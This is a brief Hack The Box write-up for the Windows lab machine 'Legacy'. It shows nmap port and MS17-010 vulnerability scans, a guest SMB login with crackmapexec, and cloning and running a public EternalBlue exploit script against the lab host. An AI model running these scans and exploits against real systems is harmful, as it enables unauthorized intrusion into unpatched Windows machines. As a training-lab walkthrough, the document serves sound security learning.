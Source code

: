 ```yaml
---
layout: single
title: Legacy - Hack The Box
excerpt: "Legacy is a fairly straightforward beginner-level machine which demonstrates the potential security risks of SMB on Windows. Only one publicly available exploit is required to obtain administrator access."
date: 2025-05-27
classes: wide
header:
  teaser: /img2/legacy.PNG
  teaser_home_page: true
  icon: /img2/images/hackthebox.webp
categories:
  - hackthebox
  - Windows
  - Easy
tags:
  - SMB Enumeration
  - Eternalblue Exploitation (MS17-010)
---
```



## Reconnaissance

- Nmap 

```bash
nmap -sS --open -p- --min-rate 5000 -vvv -n -Pn 10.10.10.4
```

![](/img2/Pasted%20image%2020250527092923.png)

- Vulnerability and version scan

```bash
nmap -sCV -p135,139,445 -vvv 10.10.10.4
```

![](/img2/Pasted%20image%2020250527093055.png)

- Try to connect smb with crackmapexec

```bash
crackmapexec smb 10.10.10.4 -u guest -p ''
```

![](/img2/Pasted%20image%2020250527101101.png)

> Probably will be vulnerable to EthernalBlue


- Vulnerability Scan

```bash
nmap -p445 --script smb-vuln-ms17-010 10.10.10.4
```

![](/img2/Pasted%20image%2020250527101301.png)

## Exploitation

- Ethernal Blue MS17-010 (CVE-2017-0143)

```bash
git clone https://github.com/n3rdh4x0r/MS17-010.git
cd MS17-010
python3 exploit.py 10.10.10.4
```

![](/img2/Pasted%20image%2020250527101438.png)

![](/img2/Pasted%20image%2020250527100911.png)